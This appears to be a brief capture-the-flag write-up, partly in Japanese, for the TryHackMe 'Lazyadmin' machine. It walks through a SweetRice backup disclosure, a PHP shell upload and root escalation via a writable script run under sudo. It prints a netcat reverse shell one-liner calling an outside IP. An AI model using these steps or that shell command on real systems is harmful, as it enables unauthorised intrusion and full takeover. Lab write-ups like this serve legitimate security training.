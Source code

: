 ```yaml
---
title: "Lazyadmin"
date: 2024-03-16T11:11:11+09:00
draft: false
---
```


### enum

- nmap
  - 22:ssh
  - 80:http
- gobuster
  - content

### user.txt

- ```searchsploit sweetrice```
- ```cat /usr/share/exploitdb/exploits/php/webapps/40718.txt```

``` txt
You can access to all mysql backup and download them from this directory.
http://localhost/inc/mysql_backup

and can access to website files backup from:
http://localhost/SweetRice-transfer.zip
```

- mysql のバックアップ？に接続できるらしい
  - ```http://10.10.61.5/content/inc/mysql_backup/```
- manager とパスワードのハッシュが見つかる
- Arbitary file upload みたいなのを実行する
- ```http://10.10.61.5/content/attachment/./shell.php5``` に php  が出てくるのでアクセスするとリバースシェルを獲得できる

### root.txt

- ```sudo -l```

``` shell
$ sudo -l
Matching Defaults entries for www-data on THM-Chal:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
(ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```

``` shell
$ cat backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");

$ ls -la
rw-r--r-x 1 root root 47 Nov 29 2019 backup.pl

$ ls -la /etc/copy.sh
-rw-r--rwx 1 root root 81 Nov 29  2019 /etc/copy.sh

$ cat /etc/copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
```

- copy.sh はユーザで書き換え可能なので (rwx) root で実行されているリバースシェルを書きかえればいい
